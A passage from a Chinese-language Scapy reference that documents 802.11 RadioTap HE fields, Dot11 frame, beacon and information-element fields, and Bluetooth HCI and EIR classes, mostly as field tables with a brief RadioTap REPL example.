                0x8000 | 中间码周期 (0: 10, 1: 20)                       
        - `HE_MU`
            - 结构
                - 16 bits flags1
                - 16 bits flags2
                - 8 bits RU_channel1[4]
                - 8 bits RU_channel2[4]
            - 该字段包含与常规HE字段中尚未捕获的HE_MU类型的PPDU相关的数据. 这是公共数据(来自HE-SIG-A和HE-SIG-B), 每个用户的数据可以在HE-MU-其他用户字段中捕获
            - 变量名: RU_channel1, RU_channel2
                - Channel 1 /Channel 2使用情况和RU字节映射
                    - 始终使用Channel 1的known字段, 用它来指示捕获了Channel 1的数据量
                    - Channel 2的known字段仅用于40 MHz及更高​​频率, 用于指示捕获了Channel 2的数据量, 对于20 MHz, 应将其设置为0 (未知) 
                - 数组中的RU八位字节(“RU_channel1”和“RU_channel2”)表示表28-26中的RU分配索引(“RU分配子字段”). 
                - Channel 1的tones取决于known字段
                    - 如果known=0, 则未报告任何数据(例如, 硬件不支持, 或SIG-B之一上的CRC错误)
                    - 如果known=1, 则根据下表, 带宽来自“HE-SIG-A中的带宽字段的带宽”标志2字段        

                    RU idx         | bw=0 (20 MHz) | bw=1 (40 MHz) | bw=2 (80 MHz) | bw=3 (160 MHz)      
                    -------------- | ------------- | ------------- | ------------- | --------------------
                    RU[0]          | -122:122      | -244:-3       | -500:-259     | -1012:-771          
                    RU[1]          | /             | /             | 17:258        | -495:-254           
                    RU[2]          | /             | /             | /             | 12:253              
                    RU[3]          | /             | /             | /             | 529:770             
                    Center 26-tone | /             | /             | -16:-4, 4:16  | -528:-516, -508:-496
                - Channel 2的tones取决于known字段
                    - 如果known=0, 则未报告任何数据(例如, 硬件不支持, 或SIG-B之一上的CRC错误)
                    - 如果known=1, 则根据下表, 带宽来自“HE-SIG-A中的带宽字段的带宽”标志2字段                        

                    RU idx         | bw=0 (20 MHz) | bw=1 (40 MHz) | bw=2 (80 MHz) | bw=3 (160 MHz)  
                    -------------- | ------------- | ------------- | ------------- | ----------------
                    RU[0]          | /             | 3:244         | -258:-17      | -770:529        
                    RU[1]          | /             | /             | 259:500       | -253:-12        
                    RU[2]          | /             | /             | /             | 254:495         
                    RU[3]          | /             | /             | /             | 771:1012        
                    Center 26-tone | /             | /             | /             | 496:508, 516:528
            - 变量名: hemu_flags1, hemu_flags2
                - Flags 1
                    值     | 含义                                 
                    ------ | -------------------------------------
                    0x000f | SIG-B MCS (来自SIG-A)                
                    0x0010 | SIG-B MCS已知                        
                    0x0020 | SIG-B DCM (来自SIG-A)                
                    0x0040 | 已知SIG-B DCM                        
                    0x0080 | (Channel 2) 已知Center 26-tone RU bit
                    0x0100 | 已知Channel 1 RUs (取决于带宽)       
                    0x0200 | 已知Channel 2 RUs (取决于带宽)       
                    0x0c00 | (保留)                               
                    0x1000 | (Channel 1) 已知Center 26-tone RU bit
                    0x2000 | (Channel 1) Center 26-tone RU值      
                    0x4000 | 已知SIG-B Compression                
                    0x8000 | 已知HE-SIG-B Symbols/MU-MIMO Users的#

                - Flags 2
                    值     | 含义                                                                                                                               
                    ------ | -----------------------------------------------------------------------------------------------------------------------------------
                    0x0003 | HE-SIG-A中Bandwidth字段中的bandwidth (0-20 MHz, …, 3-160 / 80 + 80 MHz)                                                            
                    0x0004 | HE-SIG-A中来自Bandwidth字段的bandwidth                                                                                             
                    0x0008 | SIG-A的SIG-B compression                                                                                                           
                    0x00f0 | # of HE-SIG-B Symbols - 1 or # of MU-MIMO Users - 1 from SIG-A                                                                     
                    0x0300 | HE-SIG-A中Bandwidth字段中的前导码打孔(0: 非打孔, 1: 打孔的次要20 MHz(主80兆赫, 若适用), 2:打孔, 但存在主40 MHz(主频80兆赫, 若适用))
                    0x0400 | HE-SIG-A中Bandwidth字段中的前导码打孔                                                                                              
                    0x0800 | (Channel 2) Center 26-tone RU值                                                                                                    
                    0xf000 | (保留)                                                                                                                             
        - `HE_MU_other_user`
            - 结构: 
                - 16 bits per_user_1, 16 bits per_user_2
                - 8 bits per_user_position,8 bits  per_user_known
            - 此字段包含来自SIG-B的per-user字段的数据, 用于可能尚未捕获其数据的额外用户. 通常不需要此字段；如果捕获了HE_MU PPDU, 则通常仅捕获许多用户之一, 在这种情况下, 所有数据可以在HE和HE-MU字段中进行编码.如果可以捕获更多的SIG-B, 则此字段允许在radiotap中捕获数据数据. 对于已经捕获到数据的用户, 可以但不必具有此字段. 请注意, MCS/DCM/etc. 捕数据的配置已经在常规HE字段中进行了编码, 对于SIG-B, 它是HE-MU字段的一部分.                 
            - 变量名: hemuou_per_user_1

                值     | 含义                    
                ------ | ------------------------
                0x7fff | HE-SIG-B用户字段的B0-B14
                0x8000 | 保留                    
            - 变量名: hemuou_per_user_2

                值     | 含义                               
                ------ | -----------------------------------
                0x003f | 符合规范的HE-SIG-B用户字段的B15-B20
                0xffc0 | 保留                               
            - 变量名: hemuou_per_user_position
                - 包含此用户字段的位置, 从0开始.
            - 变量名: hemuou_per_user_known

                值   | 含义                                    
                ---- | ----------------------------------------
                0x01 | 用户字段位置已知                        
                0x02 | 用户字段位置已知                        
                0x04 | 用户字段位置已知                        
                0x08 | 已知发射波束成形(B14, 仅适用于非MU-MIMO)
                0x10 | 已知空间配置(仅B11-B14, 仅适用于MU-MIMO)
                0x20 | 已知MCS(B15-18)                         
                0x40 | 已知DCM(B19)                            
                0x80 | 已知编码(B20)                           
        - `zero_length_psdu`
            - 0-length-PSDU 
            - 结构: 8 bits zero_length_psdu
            - 此字段的存在指示此PPDU中没有捕获PSDU, 也没有捕获到PSDU, 只有PHY数据有效, 并且radiotap头后面没有802.11头. 
            - 类型值含义

                类型值 | 含义                        
                ------ | ----------------------------
                0      | 探测PPDU                    
                1      | 未捕获数据(例如, 多用户PPDU)
                0xff   | 供应商指定                  
        - `L_SIG`
            - 结构: 16bits data1, data2
            - 变量名: lsig_data1

                值     | 含义    
                ------ | --------
                0x0001 | 速度已知
                0x0002 | 长度已知
                0xfffc | (保留)  
            - 变量名: lsig_length
            - 变量名: lsig_rate
        - `b28`
            - TLV fields in radiotap
            - https://www.radiotap.org/fields/TLV.html
        - `RadiotapNS`
            - Radiotap Namespace
        - `VendorNS`
        - `Ext`
    - 当present中未设置为1时, 则忽略对应数据的值
    - 例:
        ```
        >>> [v for v in RadioTap(present=1).present.names]
        ['TSFT',
        'Flags',
        'Rate',
        'Channel',
        ...
        'VendorNS',
        'Ext']
        >>> a = RadioTap(Rate=20)
        >>> a.show()
        ###[ RadioTap dummy ]###
        version= 0
        pad= 0
        len= None
        present= None
        notdecoded= ''

        >>> a.present='Rate+HE'
        >>> a.show()
        ###[ RadioTap dummy ]###
            version= 0
        pad= 0
        len= None
        present= Rate+HE
        Rate= 20
        he_data1= 0
        he_data2= 0
        he_data3= 0
        he_data4= 0
        he_data5= 0
        he_data6= 0
        notdecoded= ''
        ```
</details>

### 12.2.Dot11:`scapy.layers.dot11.Dot11`
> 无线局域网通用的标准

- https://mrncciew.com/2014/09/28/cwap-mac-headeraddresses/
- http://80211notes.blogspot.com/2013/09/understanding-address-fields-in-80211.html
- http://www.iitk.ac.in/mla/rgandhi%20website/80211b/frame_formats.htm

- 

<details>

- 变量名: proto 
    - 此字段仅用于指示帧使用的是802.11的哪个协议版本.这总是设置为“0”, 因为当前存在802.11技术的一个版本.
- 变量名: type
    - 标准中定义了三种类型(管理、控制、数据)的无线帧.下面显示了“Type”字段对应每个字段的位值
    - 取值: ["Management", "Control", "Data", "Reserved"]
- 变量名: subtype
    - 有许多不同种类的管理、控制和数据帧.因此需要4位的子类型字段来区分它们        

        Type Value(B3..B2) | Type Description | Subtype Value (B7..b4) | Subtype Description           
        ------------------ | ---------------- | ---------------------- | ------------------------------
        00                 | Management       | 0000                   | Association Request           
        00                 | Management       | 0001                   | Association Response          
        00                 | Management       | 0010                   | Reassociation Request         
        00                 | Management       | 0011                   | Reassociation Response        
        00                 | Management       | 0100                   | Probe Request                 
        00                 | Management       | 0101                   | Probe Response                
        00                 | Management       | 0110                   | Timing Advertisement          
        00                 | Management       | 0111                   | Reserved                      
        00                 | Management       | 1000                   | Beacon                        
        00                 | Management       | 1001                   | ATIM                          
        00                 | Management       | 1010                   | Disassociation                
        00                 | Management       | 1011                   | Authentication                
        00                 | Management       | 1100                   | Deauthentication              
        00                 | Management       | 1101                   | Action                        
        00                 | Management       | 1110                   | Action No Ack (NACK)          
        00                 | Management       | 1111                   | Reserved                      
        01                 | Control          | 0000-0001              | Reserved                      
        01                 | Control          | 0010                   | Trigger                       
        01                 | Control          | 0100                   | Beamforming Report Poll       
        01                 | Control          | 0101                   | VHT/HE NDP Announcement       
        01                 | Control          | 0110                   | Control Frame Extension       
        01                 | Control          | 0111                   | Control Wrapper               
        01                 | Control          | 1000                   | Block Ack Request (BAR)       
        01                 | Control          | 1001                   | Block Ack (BA)                
        01                 | Control          | 1010                   | PS-Poll                       
        01                 | Control          | 1011                   | RTS                           
        01                 | Control          | 1100                   | CTS                           
        01                 | Control          | 1101                   | ACK                           
        01                 | Control          | 1110                   | CF-End                        
        01                 | Control          | 1111                   | CF-End + CF-ACK               
        10                 | Data             | 0000                   | Data                          
        10                 | Data             | 0001                   | Data + CF-ACK                 
        10                 | Data             | 0010                   | Data + CF-Poll                
        10                 | Data             | 0011                   | Data + CF-ACK + CF-Poll       
        10                 | Data             | 0100                   | Null (no data)                
        10                 | Data             | 0101                   | CF-ACK (no data)              
        10                 | Data             | 0110                   | CF-Poll (no data)             
        10                 | Data             | 0111                   | CF-ACK + CF-Poll (no data)    
        10                 | Data             | 1000                   | QoS Data                      
        10                 | Data             | 1001                   | QoS Data + CF-ACK             
        10                 | Data             | 1010                   | QoS Data + CF-Poll            
        10                 | Data             | 1011                   | QoS Data + CF-ACK + CF-Poll   
        10                 | Data             | 1100                   | QoS Null (no data)            
        10                 | Data             | 1101                   | Reserved                      
        10                 | Data             | 1110                   | QoS CF-Poll (no data)         
        10                 | Data             | 1111                   | QoS CF-ACK + CF-Poll (no data)
        11                 | Extension        | 0000                   | DMG Beacon                    
        11                 | Extension        | 0001-1111              | Reserved                      
- 变量名: FCfield
    - 取值: 
        - "to-DS"
            - 发送到分配系统
        - "from-DS"
            - 来自��配系统
        - "MF"
            - More-Fragments
        - "retry"
            - 数据或管理帧是前一帧的"部分重传"
        - "pw-mgt"
            - Power Management
        - "MD"
            - More Data
        - "protected"
            - Protected Frame
        - "order"
            - +HTC/Order, 表示该帧包含HT控制字段
- 变量名: ID
    - Duration ID
- 变量名: SC
    - Sequence Control
- 变量名: addr1, add2, add3, add4
    - SA(Source Address): 源点地址
    - TA(Transmitter Address) : 发送端
    - RA(Receiver Address) : 接收端
    - DA(Destination Address) : 终点地址
    - BSSID (Basic Service Set IDentifier) : 基站集ID
    - 

    To DS | From DS | Address 1        | Address 2        | Address 3 | Address 4 | 含义                                          
    ----- | ------- | ---------------- | ---------------- | --------- | --------- | ----------------------------------------------
    0     | 0       | 接收端: 终点地址 | 发送端: 源点地址 | 基站集ID  | Not used  | 控制帧或管理帧                                
    0     | 1       | 接收端: 终点地址 | 发送端: 基站集ID | 源地址    | Not used  | WiFi无线路由器到客户端                        
    1     | 0       | 接收端: 基站集ID | 发送端: 源点地址 | 终点地址  | Not used  | 客户端到WiFi无线路由器                        
    1     | 1       | 接收端           | 发送端           | 终点地址  | 源点地址  | 使用WDS–无线分配系统(例如网桥, 网状AP, 中继器)
</details>

### 12.3.Dot11Beacon:`scapy.layers.dot11.Dot11Beacon`
> 信标帧是基于IEEE 802.11的WLAN 中的管理帧之一.它包含有关网络的所有信息.信标帧是定期发送的, 它们用于宣告无线局域网的存在并同步服务集的成员.

<details>

- timestamp
    - 接收到信标帧后, 所有端都将其本地时钟更改为此时间.这有助于同步.
- beacon_interval
    - 这是信标传输之间的时间间隔.节点(处于ad hoc或P2P GO模式的AP, 端)必须发送信标的时间称为目标信标传输时间(TBTT).信标间隔以时间单位(TU)表示.它是AP中的一个可配置参数, 通常配置100 TU, 1 TU = 1024 microseconds
- cap
    - 取值: 
        - short-slot
            - G Mode Short Slot Time [20 microseconds]
        - DSSS-OFDM
            - DSSS-OFDM Allowed
        - ESS
            - ESS Type Network
        - IBSS
            - IBSS Type Network
        - CFP
            - CF Pollable
        - CFP-req
            - CF Poll Requested
        - privacy
            - Privacy enabled
        - short-preamble
            - Short Preamble Allowed
        - PBCC
            - PBCC Allowed
        - agility
            - CHannel Agility Used
        - res8
        - res9
        - res11
        - res12
        - res14
        - res15
</details>

### 12.4.Dot11Elt:`scapy.layers.dot11.Dot11Elt`
> 802.11 information elements

- https://www.oreilly.com/library/view/80211-wireless-networks/0596100523/ch04.html

<details>

- ID 
    - 字段名
    - 取值: {0: "SSID",1: "Rates",2: "FHset",3: "DSset",4: "CFset",5: "TIM",6: "IBSSset",7: "Country",10: "Request",16: "challenge",33: "PowerCapability",36:"Channels"42: "ERPinfo",45: "HTCapabilities",46: "QoSCapability",47: "ERPinfo",48: "RSNinfo",50: "ESRates",52: "PowerConstraint",61: "HTinfo",68: "reserved",107:"Interworking"127: "ExtendendCapatibilities",191: "VHTCapabilities",221: "vendor"}
    - "SSID"
        - Service Set Identity 32 bytes, network name 
        - 零字节的情况是一种特殊的情况, 称为广播SSID;它仅用于当一个端试图发现其区域内的所有802.11网络时的探测请求帧.
    - "Rates"
        - Supported Rates
        - 无线局域网的几个数据速率已经标准化.支持的速率信息元素允许802.11网络指定它支持的数据速率.当移动台试图加入网络时, 它们检查网络中使用的数据速率.有些费率是强制性的, 须由移动支持, 而其他费率是可选的.
        - Dot11EltRates: `scapy.layers.dot11.Dot11EltRates`
            - ID
            - len
            - rates
        - 
    - "FHset"
        - FH Parameter Set
        - 
        - Dwell Time
            - 跳频网络从一个频道跳到另一个频道.在跳频序列中每个通道上花费的时间称为驻留时间.它以时间单位(TUs)表示.
        - Hop Set
            -  802.11 frequency-hopping PHY定义了几种hop模式, 标识正在使用的一组hop模式.
        - Hop Pattern
            - 站从集合中选择一个跳跃模式.这个字段也是一个字节, 用于识别正在使用的跳跃模式.
        - Hop Indexs
            - 每个模式都由一长串的通道跃点组成.该字段(单个字节)标识跳序列中的当前点.
    - "DSset"
        - DS Parameter Set
        - 802.11网络只有一个参数:网络使用的信道号
        - 
    - "CFset"
        - CF Parameter Set
        - CF参数集信息元素通过支持无争用操作的访问点在信标中传输
    - "TIM"
        - Traffic Indication Map (TIM)
        - AP缓冲帧用于移动端在低功率模式下睡眠. AP定期尝试将缓冲帧发送到睡眠状态下的移动端. 这样安排的一个实际原因是, 给发送端供电比简单地打开接收端更耗电, 但是802.11的设计者想了池供电的移动端, 为了延长低功耗设备的电池寿命, 决定将缓冲帧定期发送到移动端
        - 
        - DTIM Count
            - 这个单字节字段是下一个DTIM帧之前要传输的信标的数量.DTIM帧表明缓冲广播和多播帧将很快交付.并不是所有的信标帧都是DTIM帧.
        - DTIM Period
            - 这个单字节字段表示DTIM帧之间的信标间隔数.0是保留的, 没有使用.DTIM计数周期从周期到0.
        - Bitmap Control and Partial Virtual Bitmap
            - 位图控制字段分为两个子字段.第0位用于关联ID 0的流量指示状态, 为多播流量预留.位图控制字段的其余7位用于位图偏移字段.为了节省传输能力, 位图偏移字段可以用来传输虚拟位图的一部分.位图偏移量与虚拟位图的开始有关.通过使用位图偏移量和长度, 802.11端可以推断出虚拟位图的哪一部分包含在内.
    - "IBSSset"
        - IBSS Parameter Set
        - IBSSs目前只有一个参数, 即announcement流量指示映射(ATIM)窗口, 如图所示.此字段仅用于IBSS信标帧.它表示IBSS中ATIM帧之间的时间单位(TUs)的数量.
        - 
    - "Country"
        - Country String (3 bytes)
            - 一种由三个字符组成的ASCII字符串, 表示端正在操作的位置.前两个字母是ISO国家代码(例如, “US”代表美国).许多国家对室内和室外有不同的规定, 第三个特点是两者的区别.当一组综合规则覆盖所有环境时, 第三个字符是一个空间.为了指定室内或室外规则, 第三个字符可以分别设置为“I”或“O”.
        - First Channel Number (1 byte)
            - 第一个通道号是受功率约束的最低通道
        - Number of Channels (1 byte)
            - 受功率约束的频带的大小由通道的数目表示.通道的大小与物理层有关.
        - Maximum Transmit Power (1 byte)
            - 最大发射功率, 用dBm表示.
        - Pad (1 byte; optional)
            - 信息元素的大小必须是偶数字节.如果信息元素的长度是奇数字节, 则将单个字节的零作为小块追加.
    - "Request"
        - 在探测请求帧中, 请求信息元素用于向网络请求某些信息元素.请求信息元素具有类型/长度头, 后面是一个整数列表, 其中包含被请求的信息元素的编号
        - 
    - "challenge"
        - Challenge text
        - 由802.11定义的共享密钥认证系统要求移动端成功地解密一个加密的challenge.使用challenge text信息元素发送质询
        - 
    - "PowerCapability"
        - Power Capability
        - 802.11端是由电池供电的, 而且端的功能通常不如AP, 部分原因是通常不需要移动客户端设备以高功率进行传输.Power Capability信息元素允许端报告其最小和最大传输功率, 单位为dBm
        - 
    - "Channels"
        - Supported Channels
        - 支持的Channels信息元素类似于Country信息元素, 因为它描述了支持的子频带.在标头之后, 有一系列子带描述符.每个子带描述符由第一个通道号(它是受支持的子带中的最小通道号)子带中通道数量组成.例如, 只支持通道号40到52的设备将把第一个通道号设置为40, 通道数量设置为12(52-40).
        - 
    - "ERPinfo"
        - ERP information
        - 802.11g定义了扩展速率PHY (extended rate PHY, ERP).为了提供向后兼容性, 定义了ERP信息元素, 如图所示.在它的第一次迭代中, 它是一个字节中的三个位标志
        - Non-ERP present
            - 当一个旧协议的、非802.11g的端连接到网络时, 将设置这个位.当检测到不能使用802.11g的重叠网络时, 也可以设置.
        - Use Protection
            - 当存在不能以802.11g数据速率运行的端时, 保护位设置为1.这使得可以与旧协议的端向后兼容.
        - Barker Preamble Mode
            - 如果与网络相关的端不能使用短序言模式, 则将设置此位.
        - 
    - "HTCapabilities"
    - "QoSCapability"
    - "ERPinfo"
    - "RSNinfo"
        - Robust Security Network
        - 随着802.11i中显著的安全增强, 有必要开发一种在端之间通信安全信息的方法.主要工具是健壮的安全网络(RSN)信息元素, 如图所示.有几个可变的组件, 在某些情况下, RSN信息元素能会遇信息元素大小超过头部255字节的限制.
        - Version
            - version字段必须存在.802.11定义了版本1.保留0
        - Group cipher suite
            - 版本号之后是组密码套件描述符.AP必须选择一个与所有相关端兼容的分组密码, 以保护广播和多播帧.只允许一个组密码.密码套件选择器有四个字节长.它以用于供应商的OUI和用于识别密码的数字开始.802.11i使用的OUI是00-0F-AC, 由802.11工作组使用.                    
            OUI               | Suite Type | Definition                                                  
            ----------------- | ---------- | ------------------------------------------------------------
            00-0F-AC (802.11) | 0          | Use the group cipher suite (only valid for pairwise ciphers)
            00-0F-AC          | 1          | WEP-40                                                      
            00-0F-AC          | 2          | TKIP                                                        
            00-0F-AC          | 3          | Reserved                                                    
            00-0F-AC          | 4          | CCMP[a]                                                     
            00-0F-AC          | 5          | WEP-104                                                     
            Vendor OUI        | Any value  | Defined by vendor                                           
        - Pairwise Cipher Suites (count + list)
            - 分组密码套件之后可以有几个成对的密码套件来保护单播帧.有一个双字节计数, 后面是一系列受支持的密码描述符.可以将套件选择器设置为零, 以指示只支持组密码套件.除了信息元素的大小之外, 对支持的成对密码的数量没有限制.
        - Authentication and Key Management (AKM) suites (count + list)
            - 与成对密码套件选择器一样, 可能定义了多个身份验证类型.在计数之后, 有一系列四字节的套件标识符.与密码套件一样, 四字节标识符由一个OUI和一个套件类型号组成.表显示了标准的身份验证类型.                    
            OUI        | Suite type | Authentication        | Key management                                                     
            ---------- | ---------- | --------------------- | -------------------------------------------------------------------
            00-0F-AC   | 1          | 802.1X or PMK caching | Key derivation from preshared master key, as described in Chapter 7
            00-0F-AC   | 2          | Pre-shared key        | Key derivation from pre-shared key, as described in Chapter 7      
            Vendor OUI | Any        | Vendor-specific       | Vendor-specific                                                    
        - RSN Capabilties
            - 这个双字节字段由四个标记组成, 这些标记用于描述发送器的能力, 后面是必须设置为零的保留位
            - Pre-authentication
                - AP可以设置此位, 以指示它可以与网络上的其他AP执行预认证, 以移动安全会话.否则, 这个位将被设置为0
            - No Pairwise
                - 当一个端可以支持一个手动的WEP键和一个更强的单播键来广播数据时, 就设置这个位.虽然标准支持这种配置, 但是除非绝对必要, 否则不应该使用这种配置.
            - Pairwise Replay Counter and Group Replay Counter
                - 对于新出现的服务质量扩展中定义的每个优先级, 可以维护单独的重播计数器.这些位元描述了端所支持的重播计数器的数目.
        - PMK list (count + list)
            - 当成对的主密钥被AP缓存时, 访问点之间可能会更快地切换.端可能会提供一个AP on关联的主密钥列表, 以试图绕过耗时的身份验证.
        - 
    - "ESRates"
    - "PowerConstraint"
        - Power Constraint
        - 功率约束信息元素用于允许网络描述到端的最大传输功率.除了规定的最高限额外, 可能还有另一个有效的最高限额.唯一的字段是一个单字节整数, 它是任何局部约束都可以通过其降低管最大的分贝数.例如, 如果调控的最大功率为10 dBm, 但是这个信息元素包含值2, 那么该端将其最大发射功率设置为8 dBm
        - 
    - "HTinfo"
        - Hopping Pattern Parameters
    - "reserved"
    - "Interworking"
    - "ExtendendCapatibilities"
    - "VHTCapabilities"
    - "vendor"
- len
- info
    - 字段值
</details>

## 十三.蓝牙

[启动蓝牙](#2.3.启动蓝牙)

### 13.1.BluetoothHCISocket:`scapy.layers.bluetooth.BluetoothHCISocket`
> 这是与蓝牙控制器通信的“基础”级接口. 所有的东西都是建立在它上面的, 这代表了你可以用普通的蓝牙硬件得到的最接近物理层的东西. 

- iface
  - 如下iface应等于0, BluetoothHCISocket(0)
    ```
    # hcitool dev
    Devices:
            hci0    AA:AA:AA:AA:AA:AA
    ```

### 13.2.HCI_Hdr:`scapy.layers.bluetooth.HCI_Hdr`
> HCI header

### 13.3.HCI_Command_Hdr:`scapy.layers.bluetooth.HCI_Command_Hdr`
> HCI Command header

### 13.4.HCI_Cmd_LE_Set_Scan_Parameters:`scapy.layers.bluetooth.HCI_Cmd_LE_Set_Scan_Parameters`
> LE设置扫描参数
- type
    - 1: active模式
- interval
    - 单位: slot:0.625ms
    - 每隔多久进行一次监听

### 13.5.HCI_Cmd_LE_Set_Scan_Enable:`scapy.layers.bluetooth.HCI_Cmd_LE_Set_Scan_Enable`
> LE启用扫描
- enable
    - True: 启用
    - False: 不启用
- filter_dups
    - True: 不显示重复的报告
    - False: 显示重复的报告, 因为有时包含不同的数据

### 13.6.EIR_Hdr:`scapy.layers.bluetooth.EIR_Hdr`
> EIR Header
- type
    - 取值(可填数字或字符串)
        - 详解: https://www.bluetooth.com/specifications/assigned-numbers/generic-access-profile
        - 0x01: "flags"
        - 0x02: "incomplete_list_16_bit_svc_uuids"
        - 0x03: "complete_list_16_bit_svc_uuids"
        - 0x04: "incomplete_list_32_bit_svc_uuids"
        - 0x05: "complete_list_32_bit_svc_uuids"
        - 0x06: "incomplete_list_128_bit_svc_uuids"
        - 0x07: "complete_list_128_bit_svc_uuids"
        - 0x08: "shortened_local_name"
        - 0x09: "complete_local_name"
        - 0x0a: "tx_power_level"
